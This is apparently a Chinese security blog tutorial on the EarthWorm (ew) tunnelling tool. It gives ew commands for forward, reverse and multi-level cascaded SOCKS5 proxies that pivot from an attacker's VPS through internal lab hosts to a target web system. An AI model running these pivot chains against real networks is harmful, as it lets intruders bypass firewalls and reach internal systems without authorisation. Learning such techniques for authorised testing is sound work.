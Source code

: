 **目录**

[ew的使用](#t0 "ew的使用")

[模式](#t1 "模式")

[常用参数](#t2 "常用参数")

[一级代理](#t3 "一级代理")

[二级代理](#t4 "二级代理")

[三级代理](#t5 "三级代理")

* * *

如果想跟我一起讨论，那快加入我的知识星球吧！ 

![](https://img-blog.csdnimg.cn/20210127095840307.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

ew的使用
-----

ew 全称是EarchWorm，是一套轻量便携且功能强大的网络穿透工具，基于标准C开发，具有socks5代理、端口转发和端口映射三大功能，可在复杂网络环境下完成网络穿透，且支持全平台(Windows/Linux/Mac)。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。

介绍：[EarthWorm](http://rootkiter.com/EarthWorm/ "EarthWorm")

![](https://img-blog.csdnimg.cn/202101242018236.png)

### 模式

ew有六种模式，分别是：

*   ssocksd
*   rcsocks
*   rssocks
*   lcx\_slave
*   lcx\_listen
*   lcx\_tran

ssocksd是用于普通网络环境下的正向连接。

rcsocks 和 rssocks 用于反向连接。

lcx\_slave 、lcx\_listen 和 lcx\_tran 用于复杂网络环境的多级连接。

### 常用参数

*   \-l：指定要监听的本地端口
*   \-d：指定要反弹到的机器 ip
*   \-e：指定要反弹到的机器端口
*   \-f：指定要主动连接的机器 ip
*   \-g：指定要主动连接的机器端口
*   \-t：指定超时时长,默认为 1000

### 一级代理

**正向代理**

当目标机器有一个公网ip时，可以使用以下命令建立一个socks5的代理。

```
./ew -s ssocksd -l 1080
```


![](https://img-blog.csdnimg.cn/20210124203232894.png)

**反向代理**

如果目标主机没有公网ip，则我们可以使用反向代理。在我们公网VPS(1.1.1.1)上建立一个转接隧道，将VPS 1080端口[监听](https://so.csdn.net/so/search?q=%E7%9B%91%E5%90%AC&spm=1001.2101.3001.7020)的流量转发到888端口。然后目标机器主动连接我们VPS的888端口。然后我们就可以通过设置代理为VPS的1080端口建立一条通往目标主机内网的socks5隧道了。

```
VPS：./ew -s rcsocks -l 1080 -e 888      
目标机器：./ew -s rssocks -d 1.1.1.1 -e 888
```


![](https://img-blog.csdnimg.cn/20210124205545168.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 二级代理

现在有这么一种情况。服务器A能出网，服务器B不能出网，但是服务器B可以访问服务器C也就是靶标。服务器A不能访问到服务器C靶标，但是能通服务器B。

*   VPS：1.1.1.1
*   服务器A(Linux)：192.168.10.136
*   服务器B(Windows)：192.168.10.128
*   靶标web系统：http://192.168.10.132

![](https://img-blog.csdnimg.cn/20210124204214656.png)

![](https://img-blog.csdnimg.cn/20210124211555533.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

首先，在VPS上开启如下监听，将1080端口监听的流量都转发到本地的888端口

```
./ew -s lcx_listen -l 1080 -e 888
```


![](https://img-blog.csdnimg.cn/20210124204939271.png)

然后在服务器B上执行如下命令，监听本地的999端口

```
ew.exe -s ssocksd -l 999
```


![](https://img-blog.csdnimg.cn/20210124204926693.png)

最后再服务器A上执行如下命令，将VPS的888端口和服务器B的999端口连接起来

```
./ew -s lcx_slave -d 1.1.1.1 -e 888 -f 192.168.10.128 -g 999
```


![](https://img-blog.csdnimg.cn/20210124205055299.png)

以上命令都执行完之后，设置socks5代理为VPS的1080端口，即可成功访问靶标web系统。

![](https://img-blog.csdnimg.cn/20210124205301637.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 三级代理

现在有这么一种情况。服务器A能出网，服务器B不能出网，服务器C也不能出网。服务器A只能访问服务器B。服务器B只能访问服务器A和服务器C。服务器C能访问服务器B，也能访问靶标。

*   VPS：1.1.1.1
*   服务器A(Linux)：192.168.10.136
*   服务器B(Windows)：192.168.10.128
*   服务器C(Linux)：192.168.10.129
*   靶标web系统：http://192.168.10.132

![](https://img-blog.csdnimg.cn/20210124204214656.png)

![](https://img-blog.csdnimg.cn/20210124211415736.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

首先，在VPS上执行如下命令，将1080端口监听的流量都转发到本地的888端口

```
./ew -s rcsocks -l 1080 -e 888
```


![](https://img-blog.csdnimg.cn/20210124210659103.png)

然后在服务器A上执行如下命令，将VPS的888端口和内网主机B的999端口连接起来

```
./ew -s lcx_slave -d 1.1.1.1 -e 888 -f 192.168.10.128 -g 999
```


![](https://img-blog.csdnimg.cn/20210127125453854.png)

接着在服务器B上执行如下命令，将监听的999端口的流量都转发给本地的777端口

```
ew.exe -s lcx_listen -l 999 -e 777
```


![](https://img-blog.csdnimg.cn/20210124210914269.png)

最后再服务器C上执行如下命令，反弹流量到主机B的777端口

```
./ew -s rssocks -d 192.168.10.128 -e 777
```


![](https://img-blog.csdnimg.cn/20210124211115611.png)

以上命令都执行完之后，设置socks5代理为VPS的1080端口，即可成功访问靶标web系统。

![](https://img-blog.csdnimg.cn/20210124211327908.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

  参考文章：[SOCKS代理-EarchWorm(ew)三级级联 - micr067 - 博客园](https://www.cnblogs.com/micr067/p/12266244.html "SOCKS代理-EarchWorm(ew)三级级联 - micr067 - 博客园")

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10949 人正在系统学习中